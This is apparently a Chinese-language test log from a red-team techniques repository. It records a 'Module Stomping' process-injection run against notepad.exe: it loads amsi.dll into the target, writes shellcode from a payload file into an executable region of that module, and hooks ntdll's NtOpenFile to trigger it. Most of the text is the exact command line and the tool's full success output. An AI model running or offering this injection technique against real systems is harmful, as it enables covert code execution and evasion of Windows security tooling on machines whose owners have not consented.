 ### 目标进程

- **进程**: notepad.exe
- **PID**: 18560

### 注入参数

- **LoadedModule**: amsi.dll（Windows Defender AMSI）
- **HookedModule**: ntdll.dll
- **HookedAPI**: NtOpenFile
- **触发方式**: 在 notepad 中打开文件

### 编译状态

```bash
ls build/
# module_stomping.exe (已预编译)
```

## 测试执行

### 执行命令

```bash
# 启动目标进程
notepad.exe &
tasklist | grep notepad.exe
# Notepad.exe  18560  Console  13

# 执行 Module Stomping 注入
cd techniques/26-module-stomping
./build/module_stomping.exe 18560 ../23-threadless-inject/payload.bin amsi.dll ntdll.dll NtOpenFile
```

### 完整输出

```
[+] Module Stomping Injection
[+] Target PID: 18560
[+] Shellcode: ../23-threadless-inject/payload.bin
[+] Module to load: amsi.dll
[+] Hook target: ntdll.dll!NtOpenFile

[+] Shellcode loaded: 106 bytes

[+] Loading module amsi.dll into target process...
[+] Allocated memory for module name at 000001AD53890000
[+] Module loaded successfully
[+] Local module base: 00007FFB28CF0000
[+] .text section: base=00007FFB28CF1000, size=53248 bytes
[+] Random offset: 0x7775 (30581 bytes)
[+] RX hole found at 00007FFB28CF8775

[+] RX hole found at 00007FFB28CF8775 in amsi.dll

[+] NtOpenFile address: 00007FFB404C3880
[+] Original bytes: 4C 8B D1 B8 33 00 00 00
[+] Writing HookCode + Shellcode to RX hole...
[+] HookCode + Shellcode written successfully
[+] Hooking API NtOpenFile...
[+] API hooked successfully

[+] Injection complete!
[+] Waiting for callback...
```